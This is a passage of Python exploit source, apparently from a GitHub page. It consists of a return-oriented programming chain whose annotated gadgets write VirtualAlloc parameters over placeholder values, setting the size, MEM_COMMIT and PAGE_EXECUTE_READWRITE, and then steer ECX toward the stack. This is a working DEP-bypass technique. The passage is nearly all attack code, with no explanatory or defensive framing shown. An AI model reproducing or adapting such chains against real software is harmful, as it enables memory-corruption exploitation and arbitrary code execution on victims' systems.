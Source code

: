 ```py
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                ## Write the value again on 0x47474747 (ECX)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> dwSize (0x48484848)
                ##############
                ## Increase 4 bytes in ECX
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                ## PUT -0x00000001 in EAX
                0x61b6122a,  # pop eax; ret;
                0xffffffff,  # -0x00000001
                ## NEG EAX, to become 1
                0x699ef43a,  # neg eax; ret;
                ## Write on 0x48484848 (ECX)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> flAllocationType (0x49494949)
                ##############
                ## Increase 4 bytes in ECX
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                ## PUT -0x1001 in EAX
                0x61b6122a,  # pop eax; ret;
                0xffffefff,  # -0x1001
                ## NEG EAX, to become 1001
                0x699ef43a,  # neg eax; ret;
                ## DEC EAX, to become 1000
                0x68a84305,  # dec eax; ret;
                ## Write on 0x49494949 (ECX)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> flProtect (0x51515151)
                ##############
                ## Increase 4 bytes in ECX
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                ## PUT -0x40 in EAX
                0x61b6122a,  # pop eax; ret;
                0xffffffc0,  # -0x40
                ## NEG EAX, to become 40
                0x699ef43a,  # neg eax; ret;
                ## Write on 0x51515151 (ECX)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> ECX to ESP
                ##############
                ## PUT -20 on EBP
                0x6aa812c9,  # pop ebp; ret;
                0xffffffec,  # -20
                ## DEC ECX in 20
                0x6d9c8e42,  # add ecx, ebp; ret;
```